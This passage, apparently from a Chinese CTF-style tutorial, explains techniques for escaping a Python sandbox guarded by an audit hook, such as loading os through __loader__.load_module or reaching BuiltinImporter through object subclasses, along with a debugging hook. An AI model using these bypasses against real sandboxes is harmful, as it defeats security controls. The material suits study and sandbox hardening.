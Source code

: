 1. 绕过 import 导入模块. 如果直接使用 import,就会触发 audithook
   ```py
   > __import__('ctypes')
    Operation not permitted: import
   ```
2. 绕过常规的命令执行方法执行命令. 利用 os, subproccess 等模块执行命令时也会触发 audithook


### 调试技巧
本地调试时可以在 hook 函数中添加打印出 hook 的类型.
```py
def my_audit_hook(my_event, _):
    print(f'[+] {my_event}, {_}')
    WHITED_EVENTS = set({'builtins.input', 'builtins.input/result', 'exec', 'compile'})
    if my_event not in WHITED_EVENTS:
        raise RuntimeError('Operation not permitted: {}'.format(my_event))
```

这样在测试 payload 时就可以知道触发了哪些 hook
```py
> import os
[+] builtins.input/result, ('import os',)
[+] compile, (b'import os', '<string>')
[+] exec, (<code object <module> at 0x7f966795bec0, file "<string>", line 1>,)
```


### `__loader__.load_module` 导入模块
`__loader__.load_module(fullname)` 也是 python 中用于导入模块的一个方法并且不需要导入其他任何库.

```py
__loader__.load_module('os')
```

`__loader__` 实际上指向的是 `_frozen_importlib.BuiltinImporter` 类,也可以通过别的方式进行获取
```py
>>> ().__class__.__base__.__subclasses__()[84]
<class '_frozen_importlib.BuiltinImporter'>
>>> __loader__
<class '_frozen_importlib.BuiltinImporter'>
>>> ().__class__.__base__.__subclasses__()[84].__name__
'BuiltinImporter'
>>> [x for x in ().__class__.__base__.__subclasses__() if 'BuiltinImporter' in x.__name__][0]
<class '_frozen_importlib.BuiltinImporter'>
```

`__loader__.load_module` 也有一个缺点就是无法导入非内建模块. 例如 socket
```py
>>> __loader__.load_module('socket')
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
  File "<frozen importlib._bootstrap>", line 290, in _load_module_shim
  File "<frozen importlib._bootstrap>", line 721, in _load
  File "<frozen importlib._bootstrap>", line 676, in _load_unlocked
  File "<frozen importlib._bootstrap>", line 573, in module_from_spec
  File "<frozen importlib._bootstrap>", line 776, in create_module
ImportError: 'socket' is not a built-in module
```
